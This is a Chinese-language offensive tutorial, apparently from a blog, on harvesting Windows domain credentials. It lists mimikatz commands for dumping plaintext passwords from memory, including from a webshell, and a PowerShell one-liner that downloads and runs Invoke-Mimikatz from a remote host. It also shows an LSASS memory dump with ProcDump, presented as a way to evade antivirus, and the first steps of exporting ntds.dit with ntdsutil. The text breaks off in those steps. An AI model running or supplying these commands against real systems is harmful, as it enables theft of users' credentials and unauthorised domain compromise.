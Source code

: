域用户 hash 抓取 #####mimikatz 只能抓取登陆过的用户 hash，无法抓取所有用户, 需要免杀 

1、本机测试直接获取内存中的明文密码

```
privilege::debug
sekurlsa::logonpasswords
```

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7cqrIJ0PPhficCeWhXsuymNjCDn2ZGOp9zsYIpdUZfCCtic0WVCqwKuxR0QjCUnGO6wicD9WECs1UIpw/640?wx_fmt=png)

2、非交互式抓明文密码 (webshell 中)

```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" > pssword.txt
```

```
3、powershell加载mimikatz抓取密码
```

```
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz
```

```
4、ProcDump + Mimikatz本地分析
```

```
文件会比较大，低效，但是安全(绕过杀软)
ps:mimikatz的平台（platform）要与进行dump的系统(source dump)兼容(比如dowm了08的,本地就要用08系统来分析)
远程：
Procdump.exe -accepteula -ma lsass.exe lsass.dmp
本地：
sekurlsa::minidump lsass.dump.dmp
sekurlsa::logonpasswords full
```

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7cqrIJ0PPhficCeWhXsuymNj3Itab4Wx3pWMqr27XoOyTtlJRgtuicbibaMKJEeYGERkZJWMpzZrGLJw/640?wx_fmt=png)

**ntds.dit 的导出 + QuarkPwDump 读取分析** 

无法抓取所有用户, 需要免杀  

这个方法分为两步：第一步是利用工具导出 ntds.dit 第二步是利用 QuarkPwDump 去分析 hash

1、ntds.dit 的导出

1.  ntdsutil    win2008 开始 DC 中自带的工具
    

> a. 交互式
> 
> ```
> snapshot
> activate instance ntds
> create
> mount xxx
> ```
